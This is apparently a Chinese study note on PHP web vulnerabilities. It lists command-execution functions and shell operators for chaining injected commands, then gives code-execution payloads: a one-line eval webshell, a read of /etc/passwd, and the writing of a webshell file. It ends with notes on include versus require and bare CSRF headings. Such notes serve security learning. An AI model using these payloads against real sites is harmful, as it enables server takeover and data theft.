


命令执行常用函数

```
1. System：system函数可以用来执行一个外部的应用程序并将相应的执行结果输出，
函数原型如下：string system(string command, int&return_var)
其中，command是要执行的命令，return_var存放执行命令的执行后的状态值。
 2. Exec：exec函数可以用来执行一个外部的应用程序
string exec (string command, array&output, int &return_var)
其中，command是要执行的命令，output是获得执行命令输出的每一行字符串，
return_var存放执行命令后的状态值。
 3.Passthru：passthru函数可以用来执行一个UNIX系统命令并显示原始的输出，
当UNIX系统命令的输出是二进制的数据，并且需要直接返回值给浏览器时，
需要使用passthru函数来替代system与exec函数。
Passthru函数原型如下：void passthru (string command, int&return_var)
其中，command是要执行的命令，return_var存放执行命令后的状态值。
 4. Shell_exec：执行shell命令并返回输出的字符串，
函数原型如下：string shell_exec (string command)
其中，command是要执行的命令。
```

```
命令执行漏洞：相当于在cmd下敲命令，有一点像SSRF的利用方式

command1&command2 两个命令同时执行
command1&&command2 只有前面命令执行成功，后面命令才继续执行
command1;command2 不管前面命令执行成功没有，后面的命令继续执行
command1||command2 顺序执行多条命令，当碰到执行正确的命令后将不执行后面的命令
```

**代码执行漏洞的利用：**

**1、一句话木马**

${@eval($_POST[1])}

**2、获取当前工作路径**

${exit(print(getcwd()))}

使用菜刀

**3、读文件**

${exit(var_dump(file_get_contents($_POST[f])))}

f=/etc/passwd

使用post提交数值 f=/etc/passwd

4、**写webshell**

${exit(var_dump(file_put_contents($_POST[f], $_POST[d])))}

f=1.php&d=1111111

同样使用post


# PHP include 和 include_once 的区别

```
include 会将指定的文件载入并执行里面的程序；重复引用加载多次

include_once 函数会将指定的文件载入并执行里面的程序；此行为和 include 语句类似，唯一区别是如果该文件中已经被包含过，则不会再次包含。

```


```
include 引入文件的时候，如果碰到错误，会给出提示，并继续运行下边的代码。

require 引入文件的时候，如果碰到错误，会给出提示，并停止运行下边的代码。


```


cookie,ssesion,token区别

csrf伪造referer

CSRf







